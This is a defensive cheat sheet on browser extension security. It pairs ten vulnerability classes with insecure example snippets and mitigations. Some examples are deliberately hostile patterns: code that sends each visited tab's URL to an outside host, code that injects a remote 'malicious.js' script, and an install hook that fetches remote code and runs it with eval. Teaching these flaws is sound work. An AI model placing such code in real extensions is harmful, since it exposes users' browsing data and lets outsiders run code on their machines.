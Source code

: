# Browser Extension Security Vulnerabilities Cheat Sheet

## 1. Permissions Overreach

### Vulnerability: Permissions Overreach

Browser extensions sometimes request more permissions than they actually need.  
This can grant them access to all tabs, browsing history, and even sensitive  
user data. If an extension is compromised, it could lead to serious privacy  
risks.

### Example: Permissions Overreach

```json
{
  ""manifest_version": 3,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}

### Mitigation: Permissions Overreach

Follow the Principle of Least Privilege (PoLP) and request only the  
permissions that are absolutely necessary. Use optional permissions whenever  
possible instead of granting full access upfront. Regularly audit and remove  
any permissions that are no longer needed.

## 2. Data Leakage

### Vulnerability: Data Leakage

Some extensions unintentionally expose user data by sending browsing activity  
or personal details to external servers without proper security measures.

### Example: Data Leakage

```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ URL: tab.URL })
    });
  }
});

### Mitigation: Data Leakage

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is  
collected in a Privacy Policy. Implement user consent mechanisms before  
collecting or sending any personal data.

## 3. Cross-Site Scripting (XSS)

### Vulnerability: Cross-Site Scripting (XSS)

If user input is not properly sanitized, attackers can inject malicious  
scripts into web pages, potentially stealing user data or performing  
unauthorized actions.

### Example: Cross-Site Scripting (XSS)

```javascript
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization

### Mitigation: Cross-Site Scripting (XSS)

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of  
injected scripts.

## 4. Insecure Communication

### Vulnerability: Insecure Communication

Some extensions send sensitive data over unsecured HTTP connections,  
making it vulnerable to interception by attackers.

### Example: Insecure Communication

```javascript
fetch('http://example.com/api/data');

### Mitigation: Insecure Communication

Always use HTTPS for external communications to prevent data theft.
Validate server responses before processing them to ensure data integrity.

## 5. Code Injection

### Vulnerability: Code Injection

An extension that dynamically loads scripts from an untrusted source can be  
exploited to inject and execute malicious code.

### Example: Code Injection

```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);

### Mitigation: Code Injection

Use CSP (Content Security Policy) to restrict script sources.
For more details, refer to the  
[CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.

## 6. Malicious Updates

### Vulnerability: Malicious Updates

If an extension fetches updates from an untrusted server,  
an attacker could push malicious updates to all users.

### Example: Malicious Updates

```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});

### Mitigation: Malicious Updates

Sign extension updates with digital signatures to ensure authenticity.
Instead of fetching updates within the extension, rely on updates from the  
extension marketplace.
See ["Don’t inject or incorporate remote scripts"](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices).
Implement integrity checks before executing any fetched code.

## 7. Third-Party Dependencies

### Vulnerability: Third-Party Dependencies

Using outdated or vulnerable third-party libraries in an extension can  
introduce security risks if those libraries have known exploits.

### Example: Third-Party Dependencies

```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}

### Mitigation: Third-Party Dependencies

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.

## 8. Lack of Content Security Policy (CSP)

### Vulnerability: Lack of Content Security Policy (CSP)

Without a strict CSP, attackers can inject scripts into an extension’s  
web pages, increasing the risk of cross-site scripting (XSS) attacks.

### Example: Lack of Content Security Policy (CSP)

```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}

### Mitigation: Lack of Content Security Policy (CSP)

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.

## 9. Insecure Storage

### Vulnerability: Insecure Storage

Storing sensitive data like authentication tokens in localStorage or other  
unsecured locations makes it easy for attackers to access.

### Example: Insecure Storage

```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption

### Mitigation: Insecure Storage

Store sensitive data in Chrome Storage API, which provides better security  
than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.

## 10. Insufficient Privacy Controls

### Vulnerability: Insufficient Privacy Controls

If an extension does not clearly define how it collects and handles user data,  
it could lead to privacy violations and unauthorized data usage.

### Example: Insufficient Privacy Controls

```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}

### Mitigation: Insufficient Privacy Controls

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.

## Conclusion

By following these security best practices, developers can build safer  
browser extensions and protect users from privacy and security threats.  
Always prioritize least privilege, encryption, and secure coding  
principles when developing extensions.

🔹 References:
[Google Chrome Extension Security Guide](https://developer.chrome.com/docs/extensions/mv3/security/)  
[Mozilla Firefox Extension Security Best Practices](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices)
